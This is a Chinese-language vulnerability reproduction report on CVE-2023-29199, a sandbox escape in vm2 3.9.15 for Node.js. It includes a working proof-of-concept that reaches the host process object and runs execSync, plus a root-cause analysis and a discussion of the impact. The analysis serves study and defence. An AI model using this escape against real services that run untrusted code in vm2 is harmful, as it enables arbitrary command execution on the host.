

# 漏洞详情信息表

- 漏洞名称：vm2 安全漏洞
- CNNVD 编号：CNNVD-202304-1191
- CVE 编号：CVE-2023-29199
- 厂商：个人开发者
- 危害等级：高危
- 漏洞类型：沙箱逃逸漏洞
- 收录时间：2023-04-14 00:00:00
- 更新时间：2023-04-26 00:00:00

vm2 是捷克 Patrik Simek 个人开发者的一个 Node.js 的高级虚拟机/沙盒。以使用列入白名单的 Node 内置模块运行不受信任的代码。
vm2 3.9.15 版本及之前版本存在安全漏洞。攻击者利用该漏洞绕过 handleException()并泄漏未清理的主机异常，在其中主机环境中执行任意代码。

# 系统和软件环境配置详情信息表

- 操作系统：
  - Arch Linux (6.3.3-zen1-1-zen)
- 软件：
  - node v20.2.0
  - yarn v1.22.19
  - vm2 v3.9.15

# 漏洞还原详细步骤

1. 使用 `mkdir CVE-2023-29199` 指令新建目录用于测试。
2. 使用 `yarn init` 创建新的 nodejs 项目。
3. 使用 `yarn add vm2@3.9.15` 安装带有缺陷的 vm2 版本。

# 漏洞测试或验证详细步骤

## 编写代码

假设我们将 vm2 当作沙箱来运行任意代码，在披露中我们可以使用如下方式来绕过沙箱而获得整个程序的执行权限。

编辑 `index.js` 文件如下。

```js
const { VM } = require("vm2");
const vm = new VM();

const code = `
aVM2_INTERNAL_TMPNAME = {};
function stack() {
    new Error().stack;
    stack();
}
try {
    stack();
} catch (a$tmpname) {
    a$tmpname.constructor.constructor('return process')().mainModule
        .require('child_process')
        .execSync('echo "flag is here" > flag');
}
`;

console.log(vm.run(code));
```

## 测试漏洞

使用 `node index.js` 执行上面的代码之后，就可以发现当前目录下多出现了一个 `flag` 文件，内容正好是 `flag is here`。


从上可以看出，我们成功绕过了沙箱的各种限制，拿取到了 shell 的执行权限。

## 漏洞分析

我们尝试理解 vm2 对于 catch 块的转译工作。

首先 vm2 是对于 node 自带模块 vm 的一层包装，旨在提供安全的沙箱环境运行代码。

在代码运行之前，vm2 会利用 acorn 对代码进行适当的解析，通过注入代码等方式代理 nodejs 中的一些危险操作，例如 eval 和 Function 对象等。

但是其中的代码含有一些缺陷。例如在解析 catch 块的时候，vm2 使用了一些预占用变量 `$tmpname` 作为替代，之后再使用 `.replace(/\$tmpname/g, tmpname)` 进行统一的替换。


L137 代码的原意是使得 catch 捕获之后的变量经过 `handleException` 处理之后保证不暴露出 nodejs 的原生函数。但是碍于 L121 中的 `$tmpname` 原因，需要在最后添加含有容易被注入的全局替换语句。



L189 中的 replace 函数会将所有 `$tmpname` 都替换为 `tmpname` 变量（默认值为 `VM2_INTERNAL_TMPNAME`），因此这句注入的语句会被最终展开成如下代码。

```c
aVM2_INTERNAL_TMPNAME=VM2_INTERNAL_STATE_DO_NOT_USE_OR_PROGRAM_WILL_FAIL.handleException(aVM2_INTERNAL_TMPNAME);
```

从而有效避免了捕获的 `a$tmpname` 变量被替换，从而在下文中可以得到一个原生的 `InternalError` 对象。


通过对这个原生的 `InternalError` 对象获取 `.constructor` 可以获取到 `function InternalError()`，再次通过 `.constructor` 就可以获取到 `function Function()` 对象，通过该构造函数传入 `"return process"` 就可以获取到 nodejs 的 `process` 对象，从而实现接下来的任意代码执行工作。

# 漏洞危害分析

沙箱逃逸漏洞使得攻击者能够在沙箱环境中执行恶意代码，并且从该环境中“逃逸”出来，进入到更加敏感的系统资源中。这种漏洞的危害主要体现在以下几个方面：

- 突破安全防线：沙箱通常是为了保护计算机系统而设置的安全措施，如果攻击者可以通过漏洞进入到沙箱环境之外，那么就可以避开系统的安全防御，直接攻击更加敏感和重要的系统资源。
- 可以执行恶意代码：沙箱逃逸漏洞使攻击者可以在受限制的沙箱环境中执行恶意代码，这样一旦恶意代码被执行，便可能会导致系统被攻击者完全控制，比如窃取敏感信息或感染其他主机等。
- 对系统的可用性造成影响：攻击者可能会利用沙箱逃逸漏洞来破坏系统的正常运行。比如修改系统设置，删除关键文件等，从而导致系统崩溃或者停止工作。

综上所述，沙箱逃逸漏洞的危害非常大，因此需要及时修复和加强沙箱的安全性，避免这种漏洞的发生。

# 个人感悟

从开发者的角度来看，我们需要深入了解和掌握沙箱技术的实现原理，包括其设计及实现的细节和限制。在开发沙箱时需要充分考虑安全性问题，避免出现漏洞。对于已经发现的沙箱逃逸漏洞，需要及时修复并进行相应漏洞分析，以确保系统的安全性。

同时，我们还需要加强针对沙箱逃逸漏洞的防御措施，例如加强沙箱的隔离性、检测和监控沙箱中运行的程序等措施，以提高攻击者攻击沙箱的难度，并保护系统的安全性。

从攻击者的角度来看，沙箱逃逸漏洞是攻击者获取系统权限的重要途径之一。攻击者会通过各种手段分析沙箱机制并尝试利用其漏洞，提升自身攻击能力。攻击者可以利用沙箱逃逸漏洞来突破系统安全防线、执行恶意代码、感染其他主机等，给系统造成重大威胁。

因此，作为开发者，我们需要更加深刻地认识到沙箱逃逸漏洞的危害性，并持续加强沙箱的安全性，为系统的安全运行提供更可靠的保障。同时需要注意攻击者的攻击手段和途径，及时采取相应防御措施，避免出现漏洞被攻击者利用。
